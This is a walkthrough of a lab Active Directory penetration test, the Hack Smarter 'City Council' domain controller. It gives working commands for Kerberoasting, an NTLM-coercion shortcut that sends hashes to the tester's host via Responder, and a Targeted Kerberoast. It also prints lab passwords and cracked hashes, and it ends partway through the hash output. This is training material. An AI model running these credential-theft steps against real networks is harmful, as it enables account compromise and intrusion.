In this walkthrough, we will be compromising City Council, a medium-difficulty Active Directory lab from Hack Smarter Labs. The engagement begins with no credentials and only VPN access to the internal network. A public website on the domain controller hands out a desktop services portal, and watching its traffic in Wireshark exposes the plaintext credentials of `svc_services_portal`. Kerberoasting cracks `clerk.john`, a shortcut dropped on a writable share captures and cracks `jon.peters`, and a Targeted Kerberoast off that account reaches `nina.soto` and `maria.clerk`. `nina.soto` reads a backups share holding user profile images, and a DPAPI credential blob inside `clerk.john`'s profile gives up the helpdesk account `emma.hayes`. `emma.hayes` holds `WriteDacl` over `sam.brooks` and the `CITYOPS` OU, plus `GenericWrite` over a quarantined `web_admin` account, which buys us an interactive session on the domain controller and a way to move that account somewhere we control. As `web_admin` we drop an ASPX shell into the IIS web root, and `SeImpersonatePrivilege` on the application pool identity takes us to SYSTEM.


Created by: [2ubZ3r0](https://www.hacksmarter.org/courses/3a4958cb-8c5b-414c-8efc-eb28b14fd1bc)

Let's get started.

## Objective

A local municipality recently survived a devastating ransomware campaign. While their internal IT team believes the infection has been purged and the holes plugged, the Board of Supervisors isn't taking any chances. They've brought in Hack Smarter to provide a "second pair of eyes." Your mission is to perform a comprehensive penetration test of the internal infrastructure. Reaching Domain Admin isn't the endgame; treat this like a real engagement. See how many vulnerabilities you're able to identify.

You have been provided with VPN access to their internal environment, but no other information.

## Scope

**Target:** `10.1.140.119`

## RustScan

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.1.140.119 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: City Hall - Your Local Government
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-08-13 19:36:48Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: city.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 126
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: city.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC-CC.city.local
| Issuer: commonName=DC-CC.city.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-12T19:32:07
| Not valid after:  2027-02-11T19:32:07
| MD5:     1c12 83b0 46f6 8be6 b8ed ba5d ec54 eed6
| SHA-1:   0336 55b1 f222 5263 65c4 fd29 436e 1060 f0ad 42e0
| SHA-256: 7dd9 4e5e f4f5 8884 ccca 6043 319b fa30 9821 5433 01b5 a126 3d30 ac2e ae05 74fc
| rdp-ntlm-info: 
|   Target_Name: CITY
|   NetBIOS_Domain_Name: CITY
|   NetBIOS_Computer_Name: DC-CC
|   DNS_Domain_Name: city.local
|   DNS_Computer_Name: DC-CC.city.local
|   DNS_Tree_Name: city.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-08-13T19:37:44+00:00
|_ssl-date: 2026-08-13T19:37:52+00:00; -3s from scanner time.
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
47001/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49671/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49692/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49706/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49738/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC-CC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, LDAPS on 636, the global catalog on 3268 and 3269, SMB on 445, RDP on 3389, and WinRM on 5985, with IIS on 80 also exposed, which is not part of a default domain controller install. The LDAP banner gives us the domain as `city.local`, and the RDP certificate and NTLM info confirm the hostname as `DC-CC.city.local`. We add both to `/etc/hosts` before continuing.

## HTTP (Port 80)

The site is a City Hall portal for a local government.



*The City Hall front page served by IIS on the domain controller*

An Our Team page lists four staff by name and role, each with an email address in `firstname.lastname@city.local` form.



*The Our Team section listing four council staff with their roles and city.local email addresses*

Under Resources, a Documentation and Forms link leads to a digital services portal download page. It offers a Linux build of the client as a `.bin` along with setup instructions.



*The digital services portal download page offering the Linux build and setup instructions*

## Access as svc_services_portal

We follow the instructions on the page to install the dependency and run the client.

```
sudo apt update && sudo apt install python3-tk -y

chmod +x city_services_portal.bin

./city_services_portal.bin
```



*The city services portal client running locally*

We use the business license application form. Submitting it reports that the client is authenticating to the domain as a service account named `svc_services_portal`, which means credentials are leaving our own machine and crossing the tunnel.



*The business license application form authenticating to the domain as svc_services_portal on submit*

We start Wireshark on `tun0` and submit the form again to see what goes out. The credentials come across in the clear in one of the packets.



*Wireshark on tun0 showing the svc_services_portal password in cleartext in the submission traffic*

That gives us `svc_services_portal:PortAl1337`. We validate against SMB and enumerate shares.

```
nxc smb 10.1.140.119 -u 'svc_services_portal' -p 'PortAl1337' --shares
```

```
SMB         10.1.140.119    445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.140.119    445    DC-CC            [+] city.local\svc_services_portal:PortAl1337 
SMB         10.1.140.119    445    DC-CC            [*] Enumerated shares
SMB         10.1.140.119    445    DC-CC            Share           Permissions     Remark
SMB         10.1.140.119    445    DC-CC            -----           -----------     ------
SMB         10.1.140.119    445    DC-CC            ADMIN$                          Remote Admin
SMB         10.1.140.119    445    DC-CC            Backups                         
SMB         10.1.140.119    445    DC-CC            C$                              Default share
SMB         10.1.140.119    445    DC-CC            IPC$            READ            Remote IPC
SMB         10.1.140.119    445    DC-CC            NETLOGON        READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            SYSVOL          READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            Uploads    
```



*Validating svc_services_portal credentials with NetExec*

Credentials are valid. `Backups` and `Uploads` are both non-standard, and neither is readable with this account. SYSVOL turns up nothing.

## BloodHound Enumeration

A single service account only matters if it leads somewhere, so we map the domain. We point NetExec at the DC for DNS with `--dns-server` so the collector can resolve the domain records it asks for.

```
nxc ldap 10.1.140.119 -u 'svc_services_portal' -p 'PortAl1337' --bloodhound --collection All --dns-server 10.1.140.119
```

```
LDAP        10.1.140.119    389    DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local) (signing:None) (channel binding:No TLS cert) 
LDAP        10.1.140.119    389    DC-CC            [+] city.local\svc_services_portal:PortAl1337 
LDAP        10.1.140.119    389    DC-CC            Resolved collection methods: group, localadmin, objectprops, container, dcom, psremote, trusts, rdp, acl, session
LDAP        10.1.140.119    389    DC-CC            Done in 0M 24S
LDAP        10.1.140.119    389    DC-CC            Compressing output into /home/kali/.nxc/logs/DC-CC_10.1.140.119_2026-08-13_160236_bloodhound.zip
```

We import the archive and run the All Kerberoastable Users query, which returns a single account, `clerk.john`.



*The All Kerberoastable Users query returning clerk.john as the only result*

## Access as clerk.john

Kerberoasting targets accounts with a Service Principal Name set. Any authenticated domain user can request a service ticket for an SPN, and part of that ticket is encrypted with a key derived from the service account's password. We request the ticket and crack that portion offline. NetExec has a module for it.

```
nxc ldap 10.1.140.119 -u 'svc_services_portal' -p 'PortAl1337' --kerberoasting output.txt
```

```
LDAP        10.1.140.119    389    DC-CC            [*] Windows 10 / Server 2019 Build 17763 (name:DC-CC) (domain:city.local) (signing:None) (channel binding:No TLS cert) 
LDAP        10.1.140.119    389    DC-CC            [+] city.local\svc_services_portal:PortAl1337 
LDAP        10.1.140.119    389    DC-CC            [*] Skipping disabled account: krbtgt
LDAP        10.1.140.119    389    DC-CC            [*] Total of records returned 1
LDAP        10.1.140.119    389    DC-CC            [*] sAMAccountName: clerk.john, memberOf: [], pwdLastSet: 2025-10-24 10:26:28.614558, lastLogon: 2026-02-27 09:58:43.208008
LDAP        10.1.140.119    389    DC-CC            $krb5tgs$23$*clerk.john$CITY.LOCAL$city.local\clerk.john*$75eb8fad1331a525cf7761b92c4c59ee$e1d201d102d22cdd100c053966e88ef1d113f29ead150591b087607382bda25fe0a6f20faf0c972218524a3d140fbc02a1b905ca7988c96e037e7d7cf10d4478fa356b4879ee3d7030a33112f2763c0c8d1fa39ba35df30cb1c480d71e520ef896b9dbab219bdc02ada4272b27f7a4864f532f3e435ffb092db6691f192821f86a7a838b5bc4d4c2e2082eb30b476e86767493d7a74c882ecc7640c750d5b6ab83c75e734903aae4d11bd2d5f5fbe887c69912753a158347541da9ac324e0f29f8b0e412473aca9ee74bf01cd40ba7e914d449846bcb91a95b8420f0d7ac2e9636335270ef2afe4f404ae35f091f75ad143f952fb885b8d98072d1ecde1bed9302fde651209179217af66dc66fa6f4a08ac65ba3c0ad9fd06eff8d3459821a034f180129b020f74202e6078b07e16be4747aa1eacd200d8f60012637979519960a1a817e583f09a79bc30a6ab72596efe934b6634d4a3c79a5433dfffa6145a281de3fe0f3d5c524c40a2d40945b00b97a85c1ba3ae75a7dc48fc2567f3a226abbcda0b30e93f8d343161495266f6e6c65562838d25675e51fb8f821bd3947c510af11c6410beb23dc6fee262a8900fc9f98310b066a99469f546b7c17de1d04bc0eb65ebb0c5c5f46ace05852b553821b29701cbbd45e49b3f05f3956e1009296c21491c267cb65ca8a9b105d846b06a11e790191bc66eb1ba806603bba9e73c713fc7185d73f00986c6b4267163d5db3058a828e335198cb2e46c7bd621472fd8243a408e5e74d416706403a1768c744ecf648af917126a6b4ef15b07f263636df96b97ed0aad63c6dc8d28d9b970164236fce596c1bd9f7f1689f239562e35534775c4ddb3c1cbb9d81b89a81458635190de5d9355030abd82f55ffb59ca209ccd36b6576434ad55f844734e7205df24548c9ab4d16f49002e048186e63812de61cdc5cc55dc0503e648d5c9ade200cc502d920033a2cc45386db37123d9b536669a10831caca4d4f81682b68a3e2a254d6cd8308ab31f351fec154b2fff3d63a1b703a8ee6eba4e148bba8b7defa7b98114fb48dc1f1e3859a118e91a06716ecf03df3b24d4646eddc69a79d67797a21c4625cf64018564f1867dba2ae05ee7d015c344c30836331164b6825b9126b0ec28799c3d81607238f1aeb4bac36871e231d52e5e50c8ce84ee02153ad89cb81b3cb30c66516009786970dc9e9daeb62477aa900049c80f04a9f9c65e540bab1b318ebf5af01f9311a122b4a07ebe9ed7e4e264ac67f7d3f5e921af74135da1a632b514902ec638963d404efe6f9f692e667d4a44bdf85281fce031dafe1cc7148a3fb1d622a2b2288a047f011b721f574f1abebf8957b3e9a3983c139a3abd884f9e9f89e8df7cd1b5dcbe0b9f2bf74c0a363bbbc51f2ffcb64dc2157e781ce1c3157cca6581f2a5d72b1d9b1802d7c3cbd61ba2c6750acd60ab26ea66af1b7dae672ca5eb143991f24bda2cea96e797d055f4d8a1ba2130603410dbbbdc7ffb596c3cccf504020ed2deedb1cf3a85b64717731d04826a5a80d782636e0a096360e8bf17349b7fcc577152c3b59b27f580ff1a767f6df2c65beb88b4bd2d3ae2969dd00b2982bc9487ba73c5c898626be6629bb2d60d85e9ffeef67
```



*NetExec requesting the service ticket for clerk.john and writing it to output.txt*

The ticket lands in `output.txt`, so we run it through john.

```
john output.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
clerkhill        (?)     
1g 0:00:00:00 DONE (2026-08-18 18:07) 2.040g/s 3899Kp/s 3899Kc/s 3899KC/s clydeoliverreal..clenol
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



*john recovering clerkhill from the clerk.john service ticket*

Cracked. We validate `clerk.john:clerkhill` and enumerate shares.

```
nxc smb 10.1.140.119 -u 'clerk.john' -p 'clerkhill' --shares
```

```
SMB         10.1.140.119    445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.140.119    445    DC-CC            [+] city.local\clerk.john:clerkhill 
SMB         10.1.140.119    445    DC-CC            [*] Enumerated shares
SMB         10.1.140.119    445    DC-CC            Share           Permissions     Remark
SMB         10.1.140.119    445    DC-CC            -----           -----------     ------
SMB         10.1.140.119    445    DC-CC            ADMIN$                          Remote Admin
SMB         10.1.140.119    445    DC-CC            Backups                         
SMB         10.1.140.119    445    DC-CC            C$                              Default share
SMB         10.1.140.119    445    DC-CC            IPC$            READ            Remote IPC
SMB         10.1.140.119    445    DC-CC            NETLOGON        READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            SYSVOL          READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            Uploads         READ,WRITE   
```



*Validating clerk.john credentials with NetExec*

Credentials are valid, and this account picks up READ and WRITE on `Uploads`. In BloodHound, `clerk.john` holds no outbound object control and belongs to no non-standard or high value groups, so the share is the lead.

## Smbclient

We connect to `Uploads` and list it.

```
smbclient //10.1.140.119/Uploads -U 'clerk.john%clerkhill'
```

```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Aug 18 18:08:50 2026
  ..                                  D        0  Tue Aug 18 18:08:50 2026
  Council_Draft.txt                   A   162971  Tue Aug 18 18:12:10 2026
  Holiday_Office_Hours_Notice.docx      A      300  Thu Oct 30 15:36:56 2025
  Parking_Permit_Info_Sheet.txt       A      240  Thu Oct 30 15:37:35 2025
  Room_Booking_Request_Form.docx      A      341  Thu Oct 30 15:36:14 2025
  Staff_Contacts.txt                  A      751  Mon Oct 27 18:20:21 2025
  WriteAccess_Jon.Peters_DC-CC-Uploads.eml      A     1164  Fri Feb  6 04:55:07 2026

                12966143 blocks of size 4096. 8370932 blocks available
smb: \> get WriteAccess_Jon.Peters_DC-CC-Uploads.eml
getting file \WriteAccess_Jon.Peters_DC-CC-Uploads.eml of size 1164 as WriteAccess_Jon.Peters_DC-CC-Uploads.eml (4.1 KiloBytes/sec) (average 4.1 KiloBytes/sec)
```



*The Uploads share listing, with the WriteAccess email among the council documents*

The filename carries an account and a permission, so that is the one to read.

```
cat WriteAccess_Jon.Peters_DC-CC-Uploads.eml
```

```
Subject: Write access to \DC-CC\Uploads has been granted

From: Emma Hayes emma.hayes@city.local

To: Jon Peters jon.peters@city.local

Date: Fri, 24 Oct 2025 10:42:00 +0100

Hi Jon,

Quick note: I’ve granted you write access to the shared folder \\DC-CC\Uploads. The folder is mapped as drive Z: on your workstation — you should be able to create, edit and upload files there.

The following files are already in the Uploads folder and appear to be actively edited by you:

Staff_Contacts.txt

If the drive does not connect automatically, you can map it manually (you will be prompted for your domain credentials):

net use Z: \\DC-CC\Uploads /user:city.local\jon.peters

Please note: the share uses NTLM authentication. If you connect from an unfamiliar or public device and see an authentication prompt, do not enter your credentials on that device — contact the IT Helpdesk so we can verify the endpoint before you proceed.

If you encounter any issues saving files or the mapping does not persist after reboot, let me know and I’ll check the mapping remotely.

Best regards,
Emma Hayes
IT Helpdesk – City Council
```



*The helpdesk email granting jon.peters write access to Uploads and mapping it as drive Z: on his workstation*

## Access as jon.peters

The mail puts `jon.peters` in a folder we can write to, browsing it over NTLM. That is the setup for a coerced authentication. We build a shortcut with [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) that forces an outbound SMB connection when the folder is listed. The `-s` flag points it at our host.

```
python3 ntlm_theft.py -g lnk -s 10.200.47.7 -f city_council
```

```
/home/kali/tools/ntlm_theft/ntlm_theft.py:168: SyntaxWarning: invalid escape sequence '\l'
  location.href = 'ms-word:ofe|u|\\''' + server + '''\leak\leak.docx';
Created: city_council/city_council.lnk (BROWSE TO FOLDER)
Generation Complete.
```



*ntlm_theft generating the SMB coercion shortcut for the city_council host*

We start Responder on the tunnel interface to catch the incoming authentication.

```
sudo responder -I tun0
```

With Responder listening, we upload the `city_council.lnk` file. When the share lists the directory, Explorer resolves the shortcut over SMB and the hash lands.

```
smbclient //10.1.140.119/Uploads -U 'clerk.john%clerkhill'
```

```
Try "help" to get a list of possible commands.
smb: \> put city_council.lnk
```

```
[+] Listening for events...                                                                                                                                                                  

[SMB] NTLMv2-SSP Client   : 10.1.140.119
[SMB] NTLMv2-SSP Username : CITY\jon.peters
[SMB] NTLMv2-SSP Hash     : jon.peters::CITY:6dfbf8c5270f928d:75B4B372E81D0F8D26FDB204BDC801CB:01010000000000008017F4F23F2BDD0124D5BC70B2A458EE0000000002000800560057005400520001001E00570049004E002D0055004D0033004B0043004C004500330051005000380004003400570049004E002D0055004D0033004B0043004C00450033005100500038002E0056005700540052002E004C004F00430041004C000300140056005700540052002E004C004F00430041004C000500140056005700540052002E004C004F00430041004C00070008008017F4F23F2BDD010600040002000000080030003000000000000000000000000020000022685ED7201FCB40C2F51263FF63A7353747B51BDE1E57A1D1AD52C65FA3598B0A001000000000000000000000000000000000000900200063006900660073002F00310030002E003200300030002E00340037002E0037000000000000000000 
```



*Responder catching the NTLMv2 hash for CITY\jon.peters*

We save the hash to `jon_peters_hash.txt` and crack it with john.

```
john jon_peters_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1234heresjonny   (jon.peters)     
1g 0:00:00:02 DONE (2026-08-18 18:19) 0.4065g/s 5422Kp/s 5422Kc/s 5422KC/s 123654789LAMEJO..1234dork
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```



*john recovering 1234heresjonny from the jon.peters NTLMv2 hash*

Cracked. We validate `jon.peters:1234heresjonny` and enumerate shares.

```
nxc smb 10.1.140.119 -u 'jon.peters' -p '1234heresjonny' --shares
```

```
SMB         10.1.140.119    445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.140.119    445    DC-CC            [+] city.local\jon.peters:1234heresjonny 
SMB         10.1.140.119    445    DC-CC            [*] Enumerated shares
SMB         10.1.140.119    445    DC-CC            Share           Permissions     Remark
SMB         10.1.140.119    445    DC-CC            -----           -----------     ------
SMB         10.1.140.119    445    DC-CC            ADMIN$                          Remote Admin
SMB         10.1.140.119    445    DC-CC            Backups                         
SMB         10.1.140.119    445    DC-CC            C$                              Default share
SMB         10.1.140.119    445    DC-CC            IPC$            READ            Remote IPC
SMB         10.1.140.119    445    DC-CC            NETLOGON        READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            SYSVOL          READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            Uploads         READ,WRITE    
```



*Validating jon.peters credentials with NetExec*

Credentials are valid, with no share access beyond what `clerk.john` already has.

## Access as nina.soto

In BloodHound, `jon.peters` holds `GenericWrite` over three users.



*BloodHound GenericWrite: jon.peters over paul.roberts, nina.soto, and maria.clerk*

`GenericWrite` does not allow a password reset, but it does allow writing attributes, which is what a Targeted Kerberoast needs. It plants a Service Principal Name on an account we can write to and roasts it the same way. [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) sets the SPN, requests the TGS, and removes the SPN after.

```
python3 targetedKerberoast.py -v -d 'city.local' -u 'jon.peters' -p '1234heresjonny' --dc-ip 10.1.140.119
```

```
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (clerk.john)
$krb5tgs$23$*clerk.john$CITY.LOCAL$city.local/clerk.john*$01f516e1a3978812dbf9331a59a060f0$796db1049360879f4bc91a5b599227c07e6e899994796a0c3461499529bf9f81b65d2dd13bf2fb1e30cae8edc8fc1bd28eb23d395e1889b7232de1ad00d6a7121395bbcd8b09013d333c47bb042f6f07a6d7bcb4c00283f7bcfe5e13955b6f0125f711d51d14c51dbc09900f7ca7f456923f417486bd6cce91ddc83882edb74b453bf10c29ab0480f2f507e55cd016931a7453c49231bfed78e3a59102d5d64e48bdc6a9229d538c6c7eb65958a01082e49b491e8816585e294d301442f47967ff9b81efef97777b793167ea5d9dc8d8f897ccc909076e39694a3c50dfbbc1c499a6d4332ca127b0fe89b1c69a912b43d86484f06a8a2d99c2b1d3e6b23a1f607ee249f5a9156b2ab094d1ba57627c64a3134a066abe027f1c33c94b14a926de6335d12715da11f19c9ae68da23b0c2b14d4320ff441eced1eec901f94dab137db2a969d7e538a0b0fcd143b934a0cde37efce51fa4f6e7eea36961b7c33a77c0be89d2f7de4214562ad9ef4ab95955b69057226aaa61d430c2fd4f1760879685cdaeecdd428d6b098b45ae7ba4628b5762d149124ee700fe09c3b8304ed635d2ef9ebd8e15b37f4d7c0eea125b84da27e26aece3268f1364e2b943748de1aa341c09c7f83e6a22ce14ac37ed8d8c016427d97d9217804856f4ddf20a5d05adb99549befceddf98cc63ac63ecdeb26b7f565d061b0b4ea7a85bea33d80618bf1ffab42e7f1bafbd7c2dab234173f901dea851a49859ce5717e5812d3dd9e8fa4c9067156f9abe1ebae034822666816381bf939d9d406de4c64835d53118545fd7a08e7c9d06e787ff90603997e567eac95972700f383e190ad57df041fcb417ca32b43bf076d04933a9959efa64b4acb9c18c244ef1b305be3803ec855ca2e4643643110b6fe276e988aeb0885c88f4c475b3d786bce4f4b2f210cdcfd013d651653962d32144478090fd18c40c057d67431e571b9aad7a3010d2e7690a247c1d4173c8f609405ec00c2432044197d5427dab0f9f4d7a92a5e23c7e933dba4d0c317772651fd0de5d5f1386a93e7f71ce4f38e6baa26ba21b4dfcaa91b6e507d882d42a1ebd3fe6edcd193e565975369de2bb060b9369b5eb91acaa99ca016d6150bb960833dd2aac613be0b592a6ef5d40802f68c15cef5c593ca5f726124b441e49ad94525f911f788457cb8c657568c7f0b82c604487d069d4c1af7aec754d49956986ad1f27518c3af1d7f90c7b7a491640572829d295ff545c04f2b7c7ab11f9f432aa44471a65030ff2b244c3c47b1c79ca3ce2e0c426887f630e346d6e35ead26b4ae858737e0afefddf5efb6c0e65cb385e45fb655dbbadaac2b2dff097466f12dbb6ce3f8dc276ba3924cd8f3024524fe302ddfa2aa46e39f8a4c030f3d55cd59f7be38cb7e656badec9bad3f2e0995318a043b0c048470e864104d48161b3358e8c6304e71dcf7746ec68407f3117e63
[VERBOSE] SPN added successfully for (maria.clerk)
[+] Printing hash for (maria.clerk)
$krb5tgs$23$*maria.clerk$CITY.LOCAL$city.local/maria.clerk*$1c03d59c191b09f9efcd14a2e4a7c63a$5f2e131b2645a6726b636662320934d54784d730c1ffeae8c5ac129c727fc2cbb28a6bf4f87a5949f58e916a63b10c506b6cddd61a8b3ebc3a350900c88bedad69ccc3da7fe17b4be91be264f478904b01ebfd29f44c43914633c44652c0427bedb83bebe48ae0b4f7fe8b82f13ffaa3474371a994baa23e7a1bebc9c8632ba49ec65438254dd2989e93f460ad25c0dad2e3fbba01391196ee10464f9425d1f86381a40cfd7358e12947df83a27b78efb601861f43dea44c3772a899f1acce69e3725c103c1643facb284b08979ec12e6f2f6facbec3178180243eab7ad9812abde7df1cd6250a68a15fccd11554c1c05dd8913d2e3032608311e75e33ff3cf4975dda254709bb3e296bd2dec269b8bc9d51592b4954ad6deedc9929a430b76420e397be5fc8af0f2bb683d8d01f09525faeba27c478580128793d76a5f64ceaaf0a58b918430e01f1b10052f80f465fd8285ce5e998b3fb42fb6f32be4b6cfd6ffc3e5413103079ea191f0d7d3525b34c616ce2566aa709e4d6a14d5bc38540f948dd9341e10036afe60b2b8a78bbf212f346b950397db4372e20f6c53391751a9fc6d32ca093cf3368929e1097670c8846a72c9faac52ed5aa0ca966019b78d60c8a054a03498c82f6e2540091fa3910859e8d9b0dd6932bd5275ae6cb770744d0e8140bf949c3680794064c858aa4775e071ae2605d7dc17620be03112d87d163ef11236c23fd94474ef546da48d540db4ea34755ac20eb423d3948f127a73b65e6b64ab6592d78d5bafb04192f610c4517236df8d157eb6cb2905a3356afa8f029a551aab7983c915ffb739ea5f585f62cae11762a9a89f18738f726ba680291f5575b4c7e0d46ef61f9a87fb62ceef154115ad84fde160f14edaf60692419d24e6b56ef784fb2a90b5683f02a7fdd77dbc2fa84a2f713f3642714db63e2aa2239acec6c604247b470577871ec2e2504afacb36382e46640d489b5623042854b5b4991001eb78719f87dde664dbea5acf711d85adaf16191305607cd26baeda8cf66091e7765f690f3f8a0962dbd9589aafb41235a2ff80b262e5606311a80234f6799dafd65bd7022f077ba1a6c769e004936cbe3530336da6c61efb4d6eec4c9050aa2e243adf53f329a46965fa5be46560af4b3d6ea0ab517c17b9b60c9de8538a2dfaf1c2b6a2b869069747cc30571ebacd6d64a5b69dce3f737b9942a2adcbeadc24e6154cc99dbd42fe9994ec0c21983f9ab43a03d2f727c4e398c38ae2d5a037e7c52e06c04a374919c54a20b0c88282a9343d05ee2d8caa14be10cfee91f651a9376fcb2dd7227049ef9d96b83208ee4ca0ce724c7641115a9e921edeec40574a70199b25d44c7bbe0fddc3651fdabe9517ebdec0d690e90ff4e9b7e251673d20f389a0b5335bf8f108c6b174fc2a721f5bd37d8819dde5ef5f3fc42992533fb1f95f4d9a75f9d5f9ec3364531bb26
[VERBOSE] SPN removed successfully for (maria.clerk)
[VERBOSE] SPN added successfully for (paul.roberts)
[+] Printing hash for (paul.roberts)
$krb5tgs$23$*paul.roberts$CITY.LOCAL$city.local/paul.roberts*$77e342bb8dcb6104879745f3d95d2d55$9be58f55a0258fb0448974374140b8065076b10172042b8040ebaa238df3126af9c55c5f186610538d2caed1aeb84195be2643c67034ebeac20488b5783b09548834d77afffa68a634d4886aa216d4924fddbd6d006e91eef529df4a4b36c1a9cdc729f481f9a77ec47b013856baad391a05091d3d60e6945e8adb18b8728d50e7a0c3b24ffc930e00e48ecf1f639bc2c3282d41a9a64f6ba72944bfaa8b9d4de9317dc6350926683de565b24665b8daebe76d63899940020acb27c675c569592c9455e48f15616c7da0ef51233f52a4ee37b5e4096a93adb5b723655a72c8abc228d3cc25d0502ff809d03cb3345758cc9cd6985816c957ad81d8bdb189b7dbc7e4aea68c604b2d0ac15e1c3da947c0e38016fdedaf6b85c4c101c5495cec79ba4cf955ba04874b1d5e26aa180708804ccefe0d6d6f894caca01f96c0b4b6904288a438b91d72633e3cfb9828d27c3f223eba2621229ed6780718ba0e3e38b9622c59979503acb756412b476140ce9313af66b8265d661a1b71a5919f550747f3517fe5b1a09c9f4dbb0e1a6956bc9f44cde6cc5135c5c4b4a80970d1db99b11f36db91c29ac77277447a93b7a3b38ce980596cf8875a5ae6291f7b4627016c553496112cde3e3e1abca860990038740279ea41f308ac8f68d5f127bd32a9ebad29d94365a20104d9dbbdc9c44c47ea99acf1537b23e37627b2950da7e9a7a14fd52aca112c2f94b0602a60d7d27399dfb0f9133f4f6a7e885367360b115b15b14e8b86abca5c90fe373e4c3248e61e4c8be11958f569cf95795becd5e663240962ffe9f55a8d6f3c87d18e3a5dd7d243c618622b889a4ccd5d30be932160d1afa455b89f5b425c2b7bf03106a5e5d3cbe60372115251d30252dee6625c3345befec99e6e321e8af7dd26376edaa314f47daedfd4cf063c61651cb8568917b3a6d2bfcbd6bcc7c45552f3f03858b4ef9d5d2a3466baab35ec2fa04f4d8a46824742aadd6ad9826c2a46d03d2f74d5619083607f0ed4abe08569cbda83c42ae6266ca1aff525d4615a87c94d34fa5bd9a29494333b4f5f195c5f91d0c2d34b5f5b93441138cb6ad20f091120e5dec20a76be3b40f96f890bde89ffe8865508a879e8e7adbb09c75d771f0906a9e4ef46dced5c19ccda0a23dbaa2e16d1d379c0bbda93b9f8c3c3a4bf2fd043a9d8f72de41424e8d820fc932e24d5f061284e60598fa92d9df7053e099a6bd7735ba6f377047da66fada06960a5af3a863128df78db573f2ba5604d669d449e8b43c2d9e3e7bc102eb84610d9a371e6555e1796fb5ee53bf403490dfd730c9f0f24cb0e4e6b246cda6bfad4b7c6a20bc056314eccb655bee6431ac940afa8b8ea152c491d34ffb46ac22bf22f3b